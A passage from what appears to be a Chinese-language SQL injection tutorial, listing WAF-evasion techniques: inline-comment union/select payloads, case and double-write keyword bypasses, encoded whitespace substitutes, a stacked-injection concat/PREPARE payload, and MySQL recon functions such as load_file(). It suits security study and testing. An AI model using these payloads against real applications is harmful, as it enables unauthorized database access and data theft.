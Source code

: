 #### 4. 内联注释绕过

内联注释就是把注释内容当做sql语句执行，通常可以绕过WAF。

```
id=-1 and /*! union */ /*! select */ * from [表名] where [条件] -- -
```

#### 5. 绕过注释符过滤

在最后用单引号直接闭合或者用or '1'='1来代替注释符--+、-- 、#。

#### 6. 绕过and和or过滤

- 大小写绕过：or, OR, oR, Or, And, ANd, aND等。

- 注释绕过：在敏感词中间添加注释，a/\*\*/nd。
- 双写绕过：oorr。
- 利用符号替代：and用\&\&替代，or用\|\|替代

#### 7. 绕过空格过滤

- %0a 换行符代替空格

- %09 tab键代替空格

- %20 空格，url编码代替直接空格

- %0c 新的一页代替空格

- %0d return功能%0b TAB键（垂直）

#### 8. 绕过select、union关键词过滤

- 大小写绕过

- 双写绕过

- 堆叠注入+预编译+concat字符拼接

```mysql
id=1';set @sql=concat('s','elect * from `db`');PREPARE pre FROM @sql;EXECUTE pre; -- -
```

注意：保险起见，表名为数字时最好用反引号变为字符串，以防出错。



## 0x0f MySQL知识点

#### 1. MySQL函数

- system_user()  系统用户名
- user()       用户名
- current_user()  当前用户名
- session_user()  连接数据库的用户名
- database()    数据库名
- version()     MySQL数据库版本
- load_file()   转成16进制或者10进制MySQL读取本地文件的函数
- @@datadir     读取数据库路径
- @@basedir     MySQL安装路径
- @@version_compile_os  操作系统
